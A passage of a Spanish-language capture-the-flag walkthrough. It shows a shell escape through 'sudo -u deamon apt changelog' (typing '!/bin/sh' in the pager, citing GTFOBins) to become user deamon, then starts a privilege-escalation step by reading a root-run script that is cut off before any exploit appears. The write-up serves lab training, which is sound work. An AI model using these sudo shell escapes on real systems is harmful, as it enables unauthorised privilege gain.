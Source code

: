 URL = https://gtfobins.github.io/gtfobins/apt/#sudo

```shell
sudo -u deamon apt changelog apt
```

Y cuando estemos dentro del `changelog` escribimos lo siguiente.

```shell
!/bin/sh
```

Despues para tener una `bash`.

```shell
/bin/bash
```

Y con esto ya seremos el usuario `deamon`.

## Escalate Privileges

Si vemos los procesos que se estan corriendo, veremos uno en el que `root` esta ejecutando en forma de bucle un script en `/usr/local/bin/` llamado `deamon.sh` que si lo leemos para ver que hace, vemos lo siguiente.

```sh
#!/bin/bash

# ------------------------------------------------------------------------------
# Inicio del Script
# ------------------------------------------------------------------------------
# Este script realiza diversas operaciones comunes en bash, como manejo de archivos,
# directorios y control de flujo. Cada sección está comentada para explicar lo que
# está haciendo.
# ------------------------------------------------------------------------------
echo "Inicio del script: Configuración y ejecución de tareas."
# Imprime un mensaje indicando que el script ha comenzado.

# ------------------------------------------------------------------------------
# Configuración de Variables
# ------------------------------------------------------------------------------
# En esta sección, definimos varias variables que se usarán en el resto del script.
# Esto ayuda a mantener el código limpio y más fácil de mantener.
# ------------------------------------------------------------------------------
echo "Configurando variables..."
# Imprime un mensaje indicando que se están configurando las variables.

# Definición de una variable que contiene un saludo
GREETING="Hola, bienvenido al script de demostración."
# Crea una variable llamada GREETING que almacena un saludo.

# Definición de una variable para el directorio de trabajo
WORK_DIR="/tmp/demonstration"
# Crea una variable llamada WORK_DIR que almacena la ruta del directorio de trabajo.

# Definición de una variable para el archivo de ejemplo
EXAMPLE_FILE="$WORK_DIR/example.txt"
# Crea una variable llamada EXAMPLE_FILE que almacena la ruta del archivo de ejemplo.

# ------------------------------------------------------------------------------
# Preparación del Entorno de Trabajo
# ------------------------------------------------------------------------------
# Aquí se preparan los directorios y archivos necesarios para la demostración.
# Se aseguran de que el entorno esté listo antes de realizar otras operaciones.
# ------------------------------------------------------------------------------
echo "Preparando el entorno de trabajo..."
# Imprime un mensaje indicando que se está preparando el entorno de trabajo.
```